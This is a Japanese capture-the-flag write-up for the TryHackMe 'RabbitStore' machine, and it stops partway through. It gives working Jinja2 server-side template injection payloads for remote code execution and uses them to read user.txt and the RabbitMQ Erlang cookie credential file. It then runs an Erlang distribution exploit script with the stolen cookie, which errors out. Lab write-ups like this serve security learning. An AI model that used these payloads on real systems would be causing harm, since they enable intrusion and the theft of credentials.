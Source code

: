 `{{7*7}}`
![](https://i.imgur.com/EreeEMM.png)

`{{7*'7'}}`
![](https://i.imgur.com/ydmFmMk.png)

SSTIはJinja2だとわかる
RCEのペイロードをインジェクションする
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
![](https://i.imgur.com/58TzaND.png)

RCEできて、idコマンドの結果を取得できた

user.txtは以下で取得できた
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat ../user.txt').read() }}`


EPMDで、クッキーを取得すれば、RCEができることもわかっているので、クッキーを取得する
`{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /var/lib/rabbitmq/.erlang.cookie').read() }}"}`
![](https://i.imgur.com/IhhanLJ.png)

Cookie取得できた
- rLmdPNTTZX7TLKpY

でも、[shell-erldp.py](https://github.com/gteissier/erl-matter/blob/master/shell-erldp.py)を使ってもエラーが発生してしまう
- 修正する
```sh
└─$ ./shell-erldp.py 10.10.245.18 25672 rLmdPNTTZX7TLKpY  id
[*] authenticated onto victim
Traceback (most recent call last):
  File "./shell-erldp.py", line 172, in <module>
    reply = recv_reply(sock)
  File "./shell-erldp.py", line 147, in recv_reply
    terms = [t for t in erl_dist_recv(f)]
  File "./shell-erldp.py", line 94, in erl_dist_recv
    (parsed, term) = erl.binary_to_term(data)
  File "/home/kali/Desktop/THM/machine/RabbitStore/erl-matter/erlang.py", line 421, in binary_to_term
    i, term = _binary_to_term(1, data)
  File "/home/kali/Desktop/THM/machine/RabbitStore/erl-matter/erlang.py", line 505, in _binary_to_term
    i, tuple_value = _binary_to_term_sequence(i, length, data)
  File "/home/kali/Desktop/THM/machine/RabbitStore/erl-matter/erlang.py", line 630, in _binary_to_term_sequence
    i, element = _binary_to_term(i, data)
  File "/home/kali/Desktop/THM/machine/RabbitStore/erl-matter/erlang.py", line 625, in _binary_to_term
    raise ParseException('invalid tag')
erlang.ParseException: invalid tag

```
